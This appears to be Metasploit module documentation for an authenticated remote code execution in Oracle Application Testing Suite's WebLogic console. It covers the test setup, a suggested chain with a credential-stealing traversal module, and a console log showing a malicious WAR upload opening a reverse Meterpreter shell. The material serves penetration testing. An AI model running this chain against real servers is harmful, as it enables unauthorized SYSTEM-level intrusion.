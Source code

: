 ## Vulnerable Application

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle
applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these
tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the administrator console, the deployment feature can be abused to upload an arbitrary WAR file, allowing remote code execution under the
context of SYSTEM. Authentication is required.

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

### Notes

For Oracle Application Testing Suite (OATS), you may use the `auxiliary/gather/oats_downloadservlet_traversal` module to download the server's encrypted
credentials, decrypt them using a third-party tool, and then use this module to gain remote code execution.

## Scenarios

```
msf5 exploit(windows/http/oats_weblogic_console) > check
[*] 172.16.135.128:8088 - The target service is running, but could not be validated.
msf5 exploit(windows/http/oats_weblogic_console) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as oats:VeryPhat1337
[*] Ready for war. Codename "lawrence" at 6256 bytes
[*] FRSC value: 0x59c5c771ae7d83c8440d7c45d2610dca5a0aa304a9e89e4c
[*] Server replies: "The file lawrence.war has been uploaded successfully to C:\\OracleATS\\oats\\servers\\AdminServer\\upload"
[+] Operation "lawrence" is a go!
[*] Code 200 on "lawrence" request
[*] Sending stage (53866 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49337) at 2019-05-18 18:07:27 -0500
[+] Successfully undeployed lawrence.war

meterpreter >
```
